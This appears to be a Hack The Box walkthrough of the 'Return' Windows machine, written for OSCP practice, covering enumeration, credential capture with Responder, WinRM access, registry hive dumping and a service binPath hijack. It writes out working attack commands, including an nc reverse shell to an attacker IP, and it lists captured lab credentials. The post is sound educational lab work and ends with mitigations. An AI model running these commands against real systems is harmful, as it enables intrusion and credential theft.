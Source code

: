 ```yaml
---
title: Return
date: 2025-05-25
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, AD, Fake-LDAP-server, SeRestorePrivilege-privesc] 
image: return.png
media_subpath: /assets/img/posts/2025-05-25-returnHTB/
---
```


## Introduction

In this walkthrough, I tackled **Return**, an easy Windows machine that featured a **network printer administration panel**. During enumeration, I discovered the panel stored **LDAP credentials**, which could be exfiltrated by configuring a **malicious LDAP server**. This tricked the application into leaking valid credentials.

Using the obtained credentials, I gained initial access to the machine via **WinRM**. Further enumeration revealed that the compromised user was a member of a **privileged group**. I leveraged this to escalate privileges and ultimately gained **SYSTEM access** on the box.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 53

Version: 

Domain: return.local

- **dig any DNS records**
    
    ```bash
    dig any <domain> @$IP
    ```
    
    ![image.png](image%202.png)
    
- **Zone Transfer**
    
    ```bash
    dig axfr @$IP <domain>
    ```
    
    ![image.png](image%203.png)
    

### Port 139/445

- smbclient
    
    ![image.png](image%204.png)
    
- enum4linux
    
    ```bash
    enum4linux $IP
    ```
    
    Nothing interesting returned.
    

### Port 5985 (WinRM)

## Web

### Port 80

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d <domain> --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

![image.png](image%205.png)

I found user `printer`.

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

Nothing interesting.

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=<RHOST>,DC=local" 
```

![image.png](image%206.png)

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.py return.local/ -dc-ip $IP -no-pass -usersfile users
```

Checking AS-REP roasting for user printer doesn’t result in anything useful.

![image.png](image%207.png)

### Password Spraying

- [ ]  make a userlist (obtain a userlist)
- [ ]  use same passwords as usernames, reverse of them make up passwords of the seasons and current year

## Exploitation

![image.png](image%208.png)

I see this page in website interesting password is not visible, first thing that comes to mind is perform request to our smb share or responder and try to get NetNTLMv2 hashes let’s do that.

```bash
sudo responder -I tun0
```

![image.png](image%209.png)

Running it we received cleartext credentials for svc-printer user.

Trying to get shell with evil-winrm:

```bash
evil-winrm -i $IP -u svc-printer -p '1edFg43012!!’
```

![image.png](image%2010.png)

## Privilege Escalation

We have `SeBackupPrivilege` and `SeRestorePrivilege`

![image.png](image%2011.png)

The privilege  lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

Then download them to the system:

![image.png](image%2012.png)

```bash
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

```bash
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

![image.png](image%2013.png)

For some reason I can’t get an Admin shell using this hash in Pass The Hash attack.

If we have SeRestorePrivilege that means most probably we are in Server Operators group, consequently that means most probably we can SERVICE_ALL_ACCESS over services running as Local System, you can first run `.\winPEASany.exe quiet servicesinfo` and identify such services and then change their config binpath to add us to local admin group or better give us a shell.

```bash
sc.exe qc AppReadiness

#Checking access rights
sc.exe sdshow "ServiceName"
python3 sd.py --type=service "SDDL"
```

sd.py https://github.com/mtth-bfft/winsddl gets SDDL and pretty-print it.

![image.png](image%2014.png)

That confirms that we have `SERVICE_CHANGE_CONFIG`, `SERVICE_STOP`, `SERVICE_START` privileges over a service.

Let’s change its `binpath`:

```bash
sc.exe config AppReadiness binPath= "cmd /c c:\tools\nc64.exe 10.10.14.17 4444 -e cmd"
```

![image.png](image%2015.png)

Let’s now stop and start the service.

![image.png](image%2016.png)

Now we have obtained NT Authority\System shell.

![image.png](image%2017.png)

## Credentials

```bash
return\svc-printer : 1edFg43012!!
Domain Admin hash : 32db622ed9c00dd1039d8288b0407460
```

## Mitigation

- **Avoid Storing Plaintext Credentials:** Applications should never store LDAP or other sensitive credentials in plaintext or retrievable formats.
- **Validate External Inputs:** Ensure that external servers (like LDAP) cannot be configured without proper validation or authentication.
- **Use Principle of Least Privilege:** Avoid giving unnecessary group memberships or privileges to regular users.
- **Enable Credential Guard & LSA Protection:** These help prevent credential theft on Windows systems.
- **Monitor & Restrict WinRM Usage:** Disable WinRM if not needed or tightly control access using firewalls and GPOs.
- **Log and Alert on Credential Usage:** Set up alerts for unusual authentication behavior or access attempts involving sensitive accounts.
